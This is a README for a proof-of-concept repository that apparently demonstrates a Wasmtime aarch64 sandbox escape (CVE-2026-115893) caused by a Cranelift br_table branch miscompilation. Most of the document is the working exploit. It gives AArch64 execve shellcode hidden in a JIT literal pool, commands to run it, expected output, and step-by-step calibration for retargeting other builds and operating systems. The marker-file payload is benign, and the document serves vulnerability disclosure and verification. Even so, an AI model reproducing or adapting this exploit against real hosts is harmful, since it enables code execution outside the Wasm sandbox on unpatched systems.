


# CVE-2026-115893: Wasmtime aarch64 Sandbox Escape

A working full sandbox-escape exploit, proof of vulnerability, and verification
package for CVE-2026-115893 — the aarch64 Cranelift `br_table`
miscompilation in Wasmtime.

## Overview

CVE-2026-115893 is a compiler control-flow bug in Wasmtime's aarch64 Cranelift
backend. A Wasm `br_table` with enough targets produces a `JTSequence` whose
default `B.cond` branch has a displacement outside the conditional-branch
encoding range. The offset wraps, so a valid Wasm module can jump to a
user-influenced offset inside JIT code.

This repository demonstrates a full escape:

- the miscompiled branch lands in an executable JIT literal pool that the
  module influenced at compile time;
- the pool executes an AArch64 payload;
- the payload performs a host syscall, replaces the Wasmtime process with
  `/usr/bin/touch`, and creates `/tmp/wt-pwn` outside the guest.

The module has no imports and does not use WASI. This is host code execution
with the Wasmtime process's privileges, not automatically root.

This is **not** CVE-2026-115889. That is a separate Cranelift index-overflow
bug whose reproduced impact is a compiler panic/DoS.

## Affected versions

| Version range | CVE-2026-115889 | CVE-2026-115893 (aarch64) |
|---|---|---|
| `<36.0.19` | Vulnerable | Vulnerable |
| `36.0.19` | Fixed | Fixed |
| `37.0.0`–`42.x` | Vulnerable | Vulnerable |
| `43.0.0`–`48.0.6` | Fixed | Vulnerable on aarch64 |
| `48.0.7` | Fixed | Fixed |
| `49.0.0`–`49.0.3` | Fixed | Vulnerable until 49.0.4 |
| `49.0.4+` | Fixed | Fixed |

For this CVE, use a dedicated fixed release: **49.0.4**, **48.0.7**, or
**36.0.19**.

## Verified result

| Environment | Wasmtime | Result |
|---|---|---|
| macOS 26.7.1 arm64, native | 49.0.3 | PASS 5/5: rc=0, marker created |
| Linux arm64 container | 49.0.3 | PASS 3/3: rc=0, marker created |
| macOS arm64 | 49.0.4 | REJECT 3/3: rc=1, no marker |
| Linux arm64 container | 49.0.4 | REJECT 3/3: rc=1, no marker |
| macOS arm64 | 49.0.3 | 65,520-target control: no marker |
| macOS arm64 | 49.0.4 | 65,520-target control: no marker |

The exploit is deterministic on the tested build. It is **not version-blind**;
different Wasmtime builds may need retuning.

## Screenshots



*Figure 1. Linux arm64 container, Wasmtime 49.0.3. The process exits 0 after
the payload creates `/tmp/wt-pwn` outside the guest.*



*Figure 2. Wasmtime 49.0.4 rejects a generic 100,000-target `br_table` at the
65,520-target implementation limit. This generic module is not the exploit
module; it illustrates the fixed boundary.*

## Requirements

- aarch64 macOS or Linux host/container;
- Wasmtime 49.0.3 for the vulnerable run;
- Wasmtime 49.0.4 for the fixed control;
- `objdump` for branch-target inspection;
- Python 3 for the generators;
- Docker only if using the Linux container example.

Release binaries and SHA-256:

```text
macOS 49.0.3  fec6a4ca5e4310210b2feaea32179cfb51a40ab20eef48ec2345a61a3856002d
macOS 49.0.4  f5a9a33d7df600927ec2b4544cb6270cfcfbe5a7acaeb90952be39cd2584dda4
Linux 49.0.3  ffb2b17b12f6b43e6de3aab08f02269ca7cb481663e0cb189e256e9198bac770
Linux 49.0.4  7ff3862b2dee59318218c2dafd87650faf7840db2c21889b62535e9d0e7273ba
```

Tarball names:

```text
wasmtime-v49.0.3-aarch64-macos.tar.xz
wasmtime-v49.0.4-aarch64-macos.tar.xz
wasmtime-v49.0.3-aarch64-linux.tar.xz
wasmtime-v49.0.4-aarch64-linux.tar.xz
```

Module hashes:

```text
macOS  lab/jit-escape.wat        7cfe90b1fede88966df0330389967f27ff4e2a644e27ebac66e913fa299fc556
Linux  lab/jit-escape-linux.wat  299e585a3e96f311331e729f0786d5e2b7eb5f017bd0870180cc5365e0e88d25
```

## Quick start: macOS

```bash
git clone https://github.com/shreyas-malhotra/cve-2026-115893-wasmtime-sandbox-escape.git
cd cve-2026-115893-wasmtime-sandbox-escape

export WASMTIME_VULN=/path/to/wasmtime-v49.0.3-aarch64-macos/wasmtime
export WASMTIME_FIXED=/path/to/wasmtime-v49.0.4-aarch64-macos/wasmtime

./scripts/verify-macos.sh
```

Manual run:

```bash
"$WASMTIME_VULN" --version
rm -f /tmp/wt-pwn
"$WASMTIME_VULN" run --invoke pwn lab/jit-escape.wat
echo "rc=$?"
ls -l /tmp/wt-pwn
```

Expected:

```text
rc=0
-rw-r--r-- ... /tmp/wt-pwn
```

No stdout or stderr is produced; `execve` replaces the Wasmtime process. The
payload creates only `/tmp/wt-pwn`.

## Quick start: Linux arm64

```bash
git clone https://github.com/shreyas-malhotra/cve-2026-115893-wasmtime-sandbox-escape.git
cd cve-2026-115893-wasmtime-sandbox-escape

export WASMTIME_VULN=/path/to/wasmtime-v49.0.3-aarch64-linux/wasmtime
export WASMTIME_FIXED=/path/to/wasmtime-v49.0.4-aarch64-linux/wasmtime

./scripts/verify-linux.sh
```

Container example:

```bash
cp -R "$PWD" /tmp/cve-2026-115893-wasmtime-sandbox-escape

docker run --rm --platform linux/arm64 --entrypoint sh \
  -v /tmp/cve-2026-115893-wasmtime-sandbox-escape:/work:ro \
  -v /path/to/wasmtime-v49.0.3-aarch64-linux:/wasmtime:ro \
  debian:bookworm-slim -lc '
    rm -f /tmp/wt-pwn
    /wasmtime/wasmtime run --invoke pwn /work/lab/jit-escape-linux.wat
    echo "rc=$?"
    ls -l /tmp/wt-pwn
  '
```

## Fixed-version control

```bash
rm -f /tmp/wt-pwn
"$WASMTIME_FIXED" run --invoke pwn lab/jit-escape.wat
echo "rc=$?"
test -e /tmp/wt-pwn; echo "marker_exists=$?"
```

Expected:

```text
rc=1
Unsupported feature: `br_table` has 524255 targets, which exceeds the
implementation limit of 65520
marker_exists=1
```

The Linux fixed run rejects 524,252 targets.

## Negative controls

Same payload with 65,520 targets:

```bash
python3 poc/gen_jit_escape.py 65520 > /tmp/small.wat
rm -f /tmp/wt-pwn
"$WASMTIME_VULN" run --invoke pwn /tmp/small.wat
echo "rc=$?"
test -e /tmp/wt-pwn; echo "marker_exists=$?"
```

Expected: rc=0, no marker. The v128 constants and shellcode alone do not create
the file; the oversized table is required.

Changing the target count away from the pool (`n=524254`) makes the branch land
at `0x4c`, crashes, and creates no marker.

## How the exploit works

### Module layout

```wat
(module
  (memory 16)
  (func $sc (param i32) (v128.store ...))      ; payload pool
  (func $f  (param i32) (br_table ...))        ; oversized switch
  (func (export "pwn") (call $f (i32.const N)))
)
```

`sc` is never called. Its v128 constants compile into an executable `.text`
literal pool. The bytes are AArch64 shellcode.

### The misbranch

For the tested macOS build with `n=524255`:

- `f` starts near `0xa0`;
- the `JTSequence` comparison/default branch is at `b4/b8`;
- the miscompiled `b.hs` target is `0x50`, the first byte of the pool;
- `pwn` calls `f` with the selector that takes the default branch.

The pool executes:

```text
adr  x0, path
adr  x3, arg
adr  x4, arg
sub  sp, sp, #0x40
stp  x0, x3, [sp]
stp  xzr, xzr, [sp, #0x10]
mov  x1, sp
mov  x2, xzr
mov  x16, #59        ; macOS execve
svc  #0x80
brk  #0x43
```

The Linux variant uses `svc #0` and the Linux `execve` syscall number. Its
target count is 524,252 because the non-PAC prologue puts the pool at `0x40`.

### Why the marker matters

The module has no imports and never calls WASI. There is no Wasm file API in the
module. `/tmp/wt-pwn` is created by the host `execve` path, not by guest
linear-memory code.

## Regenerate the payload

```bash
python3 poc/gen_jit_escape.py > lab/jit-escape.wat
python3 poc/gen_jit_escape_linux.py > lab/jit-escape-linux.wat
```

This regenerates the modules. It does not calibrate them for another build.

## Calibrating for another build

Do not assume the default count works elsewhere.

1. Confirm the target is affected: `wasmtime --version`.
2. Compile on that exact build:
   ```bash
   "$WASMTIME_VULN" compile lab/jit-escape.wat -o /tmp/check.cwasm
   ```
3. Locate the branch:
   ```bash
   objdump -d /tmp/check.cwasm | grep -B4 -A8 'b.hs'
   ```
4. Confirm the `b.hs` destination equals the first byte of the payload pool.
5. If not, change the table count or function layout and repeat.
6. Rebuild the payload for a different OS/syscall ABI.
7. Recheck the fixed version and the 65,520-target control.

Target tuning is layout-sensitive. In one test, `n=524256` still targeted
`0x50` because the threshold encoding changed. Always inspect the generated
branch target.

## Portability

- Exact tested 49.0.3 release: deterministic in this lab.
- Other affected Wasmtime builds: expect to calibrate.
- Fixed 49.0.4/48.0.7/36.0.19: rejected.
- x86-64: not affected by this CVE.
- Windows arm64: the compiler bug may apply, but this payload uses
  macOS/Linux syscalls and `/tmp`; it needs a new payload.
- Precompiled `.cwasm`: engine/version/target-specific.

## Repository layout

```text
README.md                          This document
CHECKSUMS.txt                      SHA-256 for tracked files
docs/technical-writeup.md          Full technical analysis and evidence notes
poc/gen_jit_escape.py              macOS payload generator
poc/gen_jit_escape_linux.py        Linux arm64 payload generator
lab/escape.s                       macOS AArch64 shellcode source
lab/escape-linux.s                 Linux AArch64 shellcode source
lab/jit-escape.wat                 macOS exploit module
lab/jit-escape-linux.wat           Linux arm64 exploit module
lab/jit-escape.objdump.txt         JIT disassembly
lab/jit-escape-bytes.txt           Payload bytes/disassembly
evidence/                          Run logs, controls, verification
screenshots/                       PoV and fixed-limit captures
scripts/verify-macos.sh            macOS end-to-end verification
scripts/verify-linux.sh            Linux end-to-end verification
```

## Evidence

- `evidence/exploit-verification.txt` — consolidated results
- `evidence/exploit-verification-macos.txt` — 5/5 vulnerable, 3/3 fixed
- `evidence/exploit-verification-linux.txt` — 3/3 vulnerable, 3/3 fixed
- `evidence/exploit-negative-controls.txt` — branch-target controls
- `evidence/exploit-small-table-control.txt` — 65,520-target control
- `evidence/native-macos-run.txt` — vulnerable native run record
- `evidence/native-macos-fixed.txt` — fixed native run record
- `docs/technical-writeup.md` — full analysis and limitations

## Safety

Use only in an isolated lab or environment for which you have explicit
authorization. The payload executes a host binary and replaces the Wasmtime
process. Do not run it against third-party systems, production services, or
shared hosts.
